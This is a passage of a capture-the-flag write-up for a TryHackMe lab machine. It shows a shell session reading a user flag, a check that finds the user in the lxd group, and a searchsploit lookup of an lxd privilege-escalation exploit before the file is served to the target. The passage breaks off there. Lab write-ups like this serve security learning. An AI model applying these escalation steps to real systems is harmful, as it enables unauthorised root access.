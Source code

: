 ```
0 packages can be updated.
0 updates are security updates.

Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10

john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

```

Boom .
# Privilege Escalation

We can't `sudo -l` so we have to find another way, first we check `id` :

```
john@exploitable:/etc$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

```

**lxd** seems interesting, if we search about we find out it's a container, so we have to find a way out of that .

On reading around I found a way it can be used to escalate privileges on [exploit-db](https://www.exploit-db.com/exploits/46978), so let's download to target machine.

## Searchsploit

First thing we search for the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) on [Searchsploit](../../3%20-%20Tags/Hacking%20Tools/Searchsploit.md) and copy it to our directory :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ searchsploit lxd
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                            | linux/local/46978.sh
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Now we host the [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) server for the download :
